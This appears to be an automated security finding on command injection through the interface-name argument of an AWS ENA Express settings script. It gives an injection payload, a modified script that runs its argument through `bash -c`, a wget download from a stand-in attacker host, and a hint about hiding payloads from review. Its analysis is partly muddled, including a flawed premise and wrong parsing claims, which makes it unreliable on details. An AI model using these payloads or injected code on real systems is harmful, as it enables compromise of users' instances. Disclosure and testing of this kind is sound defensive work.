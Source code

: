 - Vulnerability Name: Command Injection in `check-ena-express-settings.sh` via Interface Name
- Description:
    1. An attacker tricks an AWS user into downloading a modified `check-ena-express-settings.sh` script.
    2. The user, intending to check their ENA Express settings, executes the script with an interface name.
    3. If the attacker has modified the script, they could introduce a command injection vulnerability through the interface argument.
    4. Specifically, the script uses the interface name in command substitution within backticks or `$()` in several places, such as:
        - `local mtu=$(ip link show ${interface} | awk '{print $5}')`
        - `local rx_queue_size=$(${ethtool} -g ${interface} | grep "RX:" | tail -n1 | awk '{print $2}')`
        - `local tx_queue_size=$(${ethtool} -g ${interface} | grep "TX:" | tail -n1 | awk '{print $2}')`
        - `echo_error "BQL is enabled on $interface which is not optimal for ENA Express"`
        - `echo_success "BQL is disabled on ${interface} (good)"`
        - `echo_error "interface ${interface} does not exist"`
        - `echo_error "Interface ${1} does not bind the ENA driver"`
        - `check_eth_mtu ${interface}`
        - `check_bql_enable ${interface}`
        - `check_eth_tx_queue_size_large_llq ${interface}`
        - `check_eth_rx_queue_size ${interface}`
        - `check_network_misc ${interface}`
    5. By providing a malicious interface name like `eth0; malicious_command;`, an attacker could execute arbitrary commands on the user's EC2 instance with the privileges of the user running the script.

- Impact:
    - Local Privilege Escalation: If the user running the script has elevated privileges (e.g., via `sudo`), the attacker could gain those privileges.
    - Unauthorized Access: The attacker could gain unauthorized access to resources within the EC2 instance, potentially including access to AWS credentials stored locally or instance metadata.
    - Data Exfiltration: The attacker could exfiltrate sensitive data from the EC2 instance.
    - System Compromise: Full compromise of the EC2 instance is possible, depending on the commands injected and the privileges of the user running the script.

- Vulnerability Rank: High

- Currently Implemented Mitigations:
    - None: The script directly uses user-provided input in shell commands without sanitization or validation.

- Missing Mitigations:
    - Input Sanitization: The script should sanitize the interface name input to prevent command injection. This could involve:
        - Whitelisting allowed characters for interface names (e.g., alphanumeric and colon).
        - Using shell quoting to prevent interpretation of special characters.
        - Ideally, avoid using user input directly in shell commands whenever possible, or use safer alternatives to shell command execution if feasible (although in this case, calling external utilities like `ethtool` and `ip` is necessary).
    - Input Validation: Validate that the provided interface name is a valid network interface on the system before using it in commands. However, even validation might not prevent injection if the validation itself is flawed or bypassed.  Sanitization is the primary mitigation.

- Preconditions:
    1. Social engineering attack succeeds in convincing an AWS user to download and execute a modified `check-ena-express-settings.sh` script.
    2. The user executes the script with a maliciously crafted interface name argument.
    3. The user has sufficient privileges for the injected commands to have a significant impact.

- Source Code Analysis:
    1. **File:** `/code/ena-express/check-ena-express-settings.sh`
    2. **Vulnerable Code Snippet Example:** `local mtu=$(ip link show ${interface} | awk '{print $5}')`
    3. **Analysis:**
        - The script takes the first command-line argument and assigns it to the variable `interface`.
        - This `interface` variable is then directly embedded within backticks (command substitution) in the line: `local mtu=$(ip link show ${interface} | awk '{print $5}')`.
        - Because the input is not sanitized, an attacker can inject shell commands by providing an interface name containing backticks or other command separators (`;`, `&`, `|`, etc.).
        - For example, if the user runs the script with `./check-ena-express-settings.sh "eth0; touch /tmp/pwned;"`, the command executed will become `ip link show eth0; touch /tmp/pwned; | awk '{print $5}'`, which will execute `touch /tmp/pwned` in addition to the intended `ip link show` command.
    4. **Visualization:**
       ```
       User Input (interface):  eth0; touch /tmp/pwned;
           |
           V
       Script Variable: interface="eth0; touch /tmp/pwned;"
           |
           V
       Command Substitution: $(ip link show ${interface} | awk '{print $5}')
           |
           V
       Executed Command: ip link show eth0; touch /tmp/pwned; | awk '{print $5}'
                                     ^^^^^^^^^^^^^^^^^^^ - Injected Command
       ```

- Security Test Case:
    1. **Prerequisites:**
        - Access to an AWS EC2 instance where the user can download and execute scripts.
        - A publicly accessible copy of the original `check-ena-express-settings.sh` script.
        - An attacker-controlled server to host the modified malicious script.
    2. **Steps:**
        - **Attacker Side:**
            a. Download the original `check-ena-express-settings.sh` script.
            b. Modify the script to introduce a command injection payload. For example, change the line `check_eth_mtu() {` to:
               ```bash
               check_eth_mtu() {
                 local interface=${1}
                 bash -c "${1}" # Injected command execution
                 local mtu=$(ip link show ${interface} | awk '{print $5}')
               ```
               This change will execute the interface argument as a shell command before proceeding with the original MTU check. A less obvious payload can also be used to avoid detection during quick reviews.
            c. Host the modified script on an attacker-controlled server (e.g., `https://attacker.example/malicious-check-ena-express-settings.sh`).

        - **Victim Side (AWS User):**
            a. On an EC2 instance, download the malicious script using `wget https://attacker.example/malicious-check-ena-express-settings.sh -O check-ena-express-settings.sh`.
            b. Make the script executable: `chmod +x check-ena-express-settings.sh`.
            c. Execute the script with a malicious interface name designed to trigger command injection, for example: `./check-ena-express-settings.sh "eth0; touch /tmp/pwned;"`.

    3. **Expected Result:**
        - A file named `pwned` should be created in the `/tmp/` directory of the EC2 instance, indicating successful command injection.
        - The script should likely still proceed to attempt the MTU check, but the injected command will have already been executed.
    4. **Cleanup:**
        - Remove the `/tmp/pwned` file from the EC2 instance.
        - Remove the downloaded malicious script from the EC2 instance.